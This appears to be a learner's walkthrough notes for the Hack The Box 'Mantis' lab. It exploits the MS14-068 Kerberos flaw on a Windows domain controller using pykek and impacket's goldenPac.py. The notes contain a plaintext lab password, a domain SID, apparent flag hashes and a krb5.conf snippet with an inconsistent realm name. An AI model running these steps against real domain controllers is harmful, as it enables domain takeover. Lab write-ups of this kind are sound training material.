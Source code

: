 
We know the OS and will try to find a vulnerability apart from Eternal blue
```
Windows Server 2008 R2 Standard 7601 Service Pack 1 kerberos exploit
```
![[Pasted image 20240516084932.png]]

So the Vulnerability is MS14-68

Will follow this blog 
https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html


Will install the required packages
```
apt-get install krb5-user cifs-utils rdate
```


Will make the changes in the host file
```
10.10.10.52 mantis HTB.local htb mantis.htb.local 
```


Will make changes in the resolv.conf file
```
nano /etc/resolv.conf
```

will make changes to /etc/krb5.conf
```
[libdefaults]
    default_realm = HTB.LOCAL
  
#Edit the realms entry as follows:
[realms]
    LAB.LOCAL = {
        kdc = mantis.htb.local:88
        admin_server = mantis.htb.local
        default_domain = HTB.LOCAL
    }
  
#Also edit the final section:
[domain_realm]
    .domain.internal = HTB.LOCAL
    domain.internal = HTB.LOCAL

```


set the date
```
rdate -n mantis.htb.local
```

will check the configuration if it works or not
```
J@m3s_P@ssW0rd!
```


```
kinit james
```

```
klist
```
![[Pasted image 20240516091939.png]]


```
smbclient -W HTB.LOCAL //MANTIS/c$ -k
```
![[Pasted image 20240516092052.png]]


```
S-1-5-21-4220043660-4019079961-2895681657-1103
```
![[Pasted image 20240516092352.png]]


Now will need to run a code
https://github.com/mubix/pykek.git
clone this repo
```
python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
```

Using this as i am getting error
https://github.com/mubix/akb/blob/master/Impacket/MS14-068.md

```
cd /usr/share/doc/python3-impacket/examples
```

```
goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
```

Finally it worked lesson learned when one things not work find another way
![[Pasted image 20240516233757.png]]

![[Pasted image 20240516233917.png]]

```
52a1b69bbae1e596f7bed80fd3f1c7ae
```

![[Pasted image 20240516234024.png]]
```
85c31d408625d8ff9308de9162f5706a
```
